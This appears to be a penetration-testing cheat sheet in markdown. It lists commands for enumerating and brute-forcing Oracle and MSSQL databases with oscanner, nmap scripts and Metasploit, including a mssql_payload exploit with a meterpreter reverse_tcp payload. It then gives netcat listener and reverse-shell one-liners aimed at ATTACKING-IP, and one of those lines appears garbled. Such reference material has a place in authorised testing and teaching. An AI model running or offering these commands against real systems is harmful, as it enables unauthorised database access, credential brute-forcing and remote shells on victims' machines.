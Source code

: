 # Penetration Tests

## Database Penetration

### Oracle

`apt-get install oscanner`    
`oscanner -s 192.168.1.200 -P 1521`   
Install and Run OScanner for SID Enumeration, Password tests, Version, Accounts, Audits, policies.

`nmap --script=oracle-tns-version`   
Fingerprint / get Oracle TNS version.

`nmap -p 1521 -A TARGET`   
Run nmap against oracle TNS.

`nmap --script=oracle-sid-brute`   
`nmap --script=oracle-brute`   
Identify default Oracle users. Login to continue the oracle privilege escalation.

### MSSQL

`nmap -sU --script=ms-sql-info 192.168.1.108 192.168.1.156`   
`msf > use auxiliary/scanner/mssql/mssql_ping`   
Use nmap or METASPLOIT for MSSQL Enumeration.

`msf > use auxiliary/admin/mssql/mssql_enum`
Bruteforce MSSQL Login.

`msf > use exploit/windows/mssql/mssql_payload`   
`msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp` 
Metasploit MSSQL Shell.

# Network


# Reverse Shells

## Setting up a Reverse Shell

### Listener on local machine

`nc -nvlp 80`   
Listens on port number, use a port number which is likely to be allowed (e.g. 80 / 443 / 2492+).

### Netcat Reverse Shell

`nc -e /bin/sh ATTACKING-IP 80`   
`/bin/sh | nc ATTACKING-IP 80`   
`rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p`   
Often nc -e is blocked, due this try one of the other methods below.
